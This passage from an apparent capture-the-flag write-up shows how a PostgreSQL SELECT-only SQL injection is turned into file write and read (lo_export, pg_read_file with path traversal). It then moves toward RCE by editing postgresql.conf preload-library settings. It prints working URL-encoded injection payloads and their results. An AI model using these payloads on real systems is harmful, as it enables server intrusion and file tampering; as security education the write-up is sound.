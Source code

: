 ```json
{"id":null,"username":null,"password":"133333"},
```

This assigns the content 'test' to the ID `133333`, we can then use `lo_export` to save it to a file:
```
tableName=users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_export(133333,'/tmp/test'))%20AS%20text)--
```

```json
{"id":null,"username":null,"password":"1"}
```

If the file gets too big, you need to use a `lo_put` in-between.

Checking the docker container with the file read from earlier:
```
tableName=users"%20UNION%20SELECT%20null,null,pg_read_file('./../../../../../../tmp/test')--
```

```json
{"id":null,"username":null,"password":"test"},
```

And we got our content!

So.............. now what?

## PostgreSQL RCE via File Write

This [one specific blog](https://adeadfed.com/posts/postgresql-select-only-rce/) that I found by pure luck was the final puzzle piece to this solve. I highly recommend reading it as it will go in a bit more detail than me (and the technique is very cool to read about). Giant shoutout to `@adeadfed`.

They also had the same problem:
> A while ago I stumbled upon a very specific instance of a Postgres SELECT SQLi. The DB data was of no worth, and, to add an insult to injury, you could not even use any of the common RCE vectors! The queries would fail with the same error message: `cannot insert multiple commands into a prepared statement`

The blog mentions a vector from modifying the `postgresql.conf` with some particularly juicy lines:
```
...
# - Shared Library Preloading -

#local_preload_libraries = ''
#session_preload_libraries = ''
#shared_preload_libraries = ''	# (change requires restart)
...

# - Other Defaults -

#dynamic_library_path = '$libdir'
...
```
